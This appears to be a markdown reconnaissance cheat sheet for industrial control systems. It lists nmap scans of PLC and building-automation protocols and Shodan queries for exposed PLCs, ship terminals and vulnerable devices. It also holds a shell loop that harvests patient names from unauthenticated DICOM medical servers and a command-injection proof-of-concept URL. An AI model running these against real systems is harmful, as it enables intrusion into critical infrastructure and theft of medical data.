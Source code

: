 # ICS/SCADA 
## Enumeration Techniques for 
* Effective Scanning
* Network Reconnaissance
* Tactical Host Probing


### General Enumeration
```
nmap -Pn -sT --scan-delay 1s --max-parallelism 1 \
    -p
    80,102,443,502,530,593,789,1089-1091,1911,1962,2222,2404,4000,4840,4843,4911,9600,19999,20000,20547,34962-34964,34980,44818,46823,46824,55000-55003 \
    <target>
```

### Siemens S7
Enumerates Siemens S7 PLC Devices and collects their device information. This script is based off PLCScan that was developed by Positive Research and Scadastrangelove (https://code.google.com/p/plcscan/). This script is meant to provide the same functionality as PLCScan inside of Nmap. Some of the information that is collected by PLCScan was not ported over; this information can be parsed out of the packets that are received.

Usage:
```
nmap --script s7-info.nse -p 102 <host/s>
```

Output:
```
102/tcp open  Siemens S7 PLC
| s7-info:
|   Basic Hardware: 6ES7 315-2AG10-0AB0
|   System Name: SIMATIC 300(1)
|   Copyright: Original Siemens Equipment
|   Version: 2.6.9
|   Module Type: CPU 315-2 DP
|   Module: 6ES7 315-2AG10-0AB0
|_  Serial Number: S C-X4U421302009
```


### Modbus Scanning
```
nmap -Pn -sT -p502 --script modbus-discover <target>

nmap -sT -Pn -p502 --script modbus-discover --script-args modbus-discover.aggressive=true <target>
```

### Bacnet
```
nmap -Pn -sU -p47808 --script bacnet-info <target>

# Siemens Bacnet P2 Enumeration 

nmap -Pn -sT -n -T4 -p5033 <target> 
```

### Enip
```nmap -Pn -sU -p44818 --script enip-info <target>```


### Niagara fOX
```nmap -Pn -sT -p1911,4911 --script fox-info <target>```


### Omron
```nmap -Pn -sU -p9600 --script omrom-info <target>```


### PCWorx Devices
PCWorx devices allow unaunthenticated requests that query for system information.
```nmap -Pn -sT -p1962 --script pcworx-info <target>```


## Shodan.io Queries

### PLCs
Siemens S7-1200 PLC
```
Location: /Default.mwsl
```

Siemens APOGEE Building Systems
```
Model Name: Siemens BACnet Field Panel
```

Omron CJ2 PLCs
```
Product name: CJ2*
```

Schneider Electric PLCs
```
Device Identification: Schneider Electric
```

## Maritime 

K4 Edge Routers and Maritime VSAT
```
"k4DCP5" country:US
```

KVH Commbox Terminals
```
html:commbox
```

Cobham Sailor 900
```
title:”sailor 900"
```


## Miscellaneous

TeamViewer
```
port:5938 "\x17$\x11\x04\x00"
```

Yealink T49G VOIP Phones
```
Yealink T49G
```

## CVE-2022-22954
VMware Workspace ONE Access and Identity Manager contain a remote code execution vulnerability due to server-side template injection. A malicious actor with network access can trigger a server-side template injection that may result in remote code execution.
```
http.favicon.hash:-1250474341
```

## Exposed DICOM Servers
Count patient names in US exposed DICOM medical servers with no authentication
```
$ shodan download search "tag:medical" "country:us"; shodan parse --fields ip_str search.json.gz > usa_dicom_ip ; for i in `cat usa_dicom_ip` ; do echo "///// Now connecting to $i ////" ; findscu -v -to 1 -P -k PatientName="*" $i 104 >> us_dicom_patient_names; wc -l us_dicom_patient_names ; done
```

## Zyxel Firewall Unauthenticated Remote Command Injection
Rapid7 discovered and reported a vulnerability that affects Zyxel firewalls supporting Zero Touch Provisioning (ZTP), which includes the ATP series, VPN series, and the USG FLEX series (including USG20-VPN and USG20W-VPN). The vulnerability, identified as CVE-2022-30525, allows an unauthenticated and remote attacker to achieve arbitrary code execution as the nobody user on the affected device.
```
title:"USG FLEX 100","USG FLEX 100w","USG FLEX 200","USG FLEX 500","USG FLEX 700","USG FLEX 50","USG FLEX 50w","ATP100","ATP200","ATP500","ATP700"
```

## SDT-CW3B1 1.1.0 - OS Command Injection (CVE-2021-46422)
```
poc:http://<IP>/cgi-bin/admin.cgi?Command=sysCommand&Cmd=id
```

